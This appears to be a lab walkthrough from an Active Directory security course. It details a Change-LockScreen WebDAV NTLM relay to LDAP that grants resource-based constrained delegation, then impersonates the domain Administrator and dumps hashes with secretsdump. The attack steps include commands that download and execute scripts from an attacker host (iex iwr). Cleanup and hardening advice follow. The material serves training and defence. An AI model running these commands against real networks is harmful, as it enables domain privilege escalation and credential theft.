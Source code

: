 ```yaml
---
description: >-
  Abuse the lockscreen image changing functionality to achieve a webdav network
  authentication as SYSTEM from the given computer. Then relay the
  authentication to the Active Directory LDAP service in or
---
```


# Change-LockScreen

## Configuring

1. Login to `WEB01` as the `Administrator` user with password `Welcome01!`.
2. Open PowerShell and execute the following command to enable WebDav.

```
Install-WindowsFeature WebDAV-Redirector –Restart
```

2\. After the server restarts Open the "Windows Defender Firewall" to open up the SMB port.

![](<../../../.gitbook/assets/image (38) (1).png>)

3\. Click on "Allow an app or feature through Windows Defender Firewall"

![](<../../../.gitbook/assets/image (2).png>)

4\. Select "File and Printer sharing" and click on "OK"

![](<../../../.gitbook/assets/image (23) (1) (1).png>)

## Attacking

### How it works

Abuse the lockscreen image changing functionality to achieve a webdav network authentication as SYSTEM from the given computer. Then relay the authentication to the Active Directory LDAP service in order to set up Resource-Based Constrained Delegation to that specific machine.

### Tools

* [Powermad](https://github.com/Kevin-Robertson/Powermad)
* [Invoke-DNSUpdate](https://github.com/Kevin-Robertson/Powermad/blob/master/Invoke-DNSUpdate.ps1)
* [Change-LockScreen](https://github.com/nccgroup/Change-Lockscreen)
* [Impacket](https://github.com/SecureAuthCorp/impacket)

### Executing the attack

#### Prerequisite

* Low priv shell on a machine
* An account with a SPN associated (or able to add new machines accounts (default value this quota is 10))
* WebDAV Redirector feature must be installed on the victim machine. (W10 has it by default, but manually installed on server 2016 and later)
* A DNS record pointing to the attacker’s machine (By default authenticated users can do this)

#### Executing the attack

1. It is expected that a low privileged shell is already gained on `Web01` through the SQL server.

{% content-ref url="../sql-server-attacks/executing-commands.md" %}
[executing-commands.md](../sql-server-attacks/executing-commands.md)
{% endcontent-ref %}

2\. Get the machine account Qouta from the domain with crackmapexec:

```
crackmapexec ldap 10.0.0.5 -u richard -p Sample123 -M MAQ
```

![](<../../../.gitbook/assets/image (9) (1) (1) (1).png>)

The machine account qouta is 10, meaning we (all authenticated users) can create our own computerobject in the domain.

2\. Create machine account `FAKE01` with password `123456` with PowerMad:

```
iex (iwr http://192.168.248.3:8090/Powermad.ps1 -usebasicparsing)
New-MachineAccount -MachineAccount FAKE01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```

![](<../../../.gitbook/assets/image (56) (1).png>)

3\. Create a DNS record for webdav to our attacking machine with Invoke-DNSUpdate. The DNS record is required for webdav connection to work. It won't connect through an IP only with a hostname.

```
iex (iwr http://192.168.248.3:8090/Invoke-DNSUpdate.ps1 -usebasicparsing)
Invoke-DNSUpdate -DNSType A -DNSName webdav.amsterdam.bank.local -DNSData 192.168.248.3 -Realm amsterdam.bank.local
```

![](<../../../.gitbook/assets/image (19) (1).png>)

We now have all our prerequisites. Time to escalate our privileges.

4\. Run NTLMRelay on our Kali machine and set it up so it will write the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute that allows our created computerobject `FAKE01` to actonbehalf `WS01`:

```
python3 /opt/impacket/examples/ntlmrelayx.py -t ldap://10.0.0.3 --delegate-access --escalate-user FAKE01$ --serve-image ./image.jpg
```

![](<../../../.gitbook/assets/image (34) (1).png>)

5\. Run the Change-LockScreen tool in the shell of WS01 and check the ntlmrelay output. The Change-LockScreen command will give an error but this doesn't matter:

```
iex (iwr http://192.168.248.3:8090/Change-Lockscreen.ps1 -usebasicparsing)
change-lockscreen -webdav \\webdav@80\
```

![](<../../../.gitbook/assets/image (1) (1).png>)

When we check the ntlmrelay output we see that `FAKE01` can now impersonate users on `WEB01`.

![](<../../../.gitbook/assets/image (64) (1) (1).png>)

If we open the attribute editor on DC02 for WEB01 we can see the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute:

![](<../../../.gitbook/assets/image (51) (1) (1).png>)

6\. Create a ticket using `FAKE01` impersonating the domain admin `Administrator` using impackets getST.py. Fill in the password `123456`.

```
getST.py amsterdam/FAKE01@10.0.0.5 -spn cifs/web01.amsterdam.bank.local -impersonate administrator -dc-ip 10.0.0.3
```

![](<../../../.gitbook/assets/image (32) (1) (1).png>)

7\. Use this ticket and run `secretsdump.py` to dump the local admin hashes of `WEB01`.

```
export KRB5CCNAME=administrator.ccache
secretsdump.py -k -no-pass web01.amsterdam.bank.local
```

![](<../../../.gitbook/assets/image (44) (1) (1) (1) (1).png>)

### Cleanup

1. Login to `DC02` as `Administrator` with the password `Welcome01!`.
2. Execute the following command to remove the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute from `WEB01`.

```
Set-ADComputer -PrincipalsAllowedToDelegateToAccount $null -Identity web01
```

3\. Execute the following command to remove the `FAKE01` computer we created:

```
Get-ADComputer fake01 | Remove-ADObject
```

4\. Open "DNS Manager" and expand DC02 --> Forward Lookup Zones --> and click on `Amsterdam.bank.local.`Remove the DNS-record created for webdav:

![](<../../../.gitbook/assets/image (33) (1).png>)

4\. From our Kali machine set the SQL server settings back:

```
mssql-cli -S 10.0.0.5 -U sa -P sa
EXEC sp_configure 'xp_cmdshell',0
RECONFIGURE
EXEC sp_configure 'show advanced options',0
RECONFIGURE
```

## Defending

### Recommendations

* Change who can add computers to the domain.

{% content-ref url="../../../defence/hardening/change-who-can-join-computers-to-the-domain.md" %}
[change-who-can-join-computers-to-the-domain.md](../../../defence/hardening/change-who-can-join-computers-to-the-domain.md)
{% endcontent-ref %}

* Add privileged users to the protected users group.

{% content-ref url="../../../defence/hardening/protected-users-group.md" %}
[protected-users-group.md](../../../defence/hardening/protected-users-group.md)
{% endcontent-ref %}

* Add the flag "Account is sensitive and cannot be delegated".

{% content-ref url="../../../defence/hardening/account-is-sensitive-and-cannot-be-delegated.md" %}
[account-is-sensitive-and-cannot-be-delegated.md](../../../defence/hardening/account-is-sensitive-and-cannot-be-delegated.md)
{% endcontent-ref %}

* Remove the WebDav client from servers and workstations.

### Detection



## References

{% embed url="https://research.nccgroup.com/2019/08/20/kerberos-resource-based-constrained-delegation-when-an-image-change-leads-to-a-privilege-escalation" %}

{% embed url="https://github.com/Kevin-Robertson/Powermad" %}

{% embed url="https://github.com/Kevin-Robertson/Powermad/blob/master/Invoke-DNSUpdate.ps1" %}

{% embed url="https://github.com/SecureAuthCorp/impacket" %}
